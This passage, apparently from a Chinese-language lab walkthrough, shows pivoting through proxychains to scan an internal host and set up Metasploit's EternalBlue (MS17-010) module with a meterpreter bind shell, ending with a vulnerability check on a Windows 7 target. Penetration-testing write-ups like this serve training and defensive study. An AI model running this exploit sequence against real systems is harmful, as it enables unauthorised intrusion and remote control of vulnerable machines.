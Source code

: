 

代理成功：`proxychains nmap 192.168.201.129`

![image-20211013162804601](/assets/image-20211013162804601.png)



漏洞利用：

通过代理启动msfdb

```shell
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run                       #启动msfdb                                                                                    1 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[i] Database already started
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.1
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue                #使用永恒之蓝漏洞利用模块
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129       #设置目标ip
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp   #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988      #设置端口
msf6 exploit(windows/smb/ms17_010_eternalblue) > run                   #运行
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14

[*] 192.168.201.129:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:135  ...  OK
[+] 192.168.201.129:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.201.129:445   - Scanned 1 of 1 hosts (100% complete)
```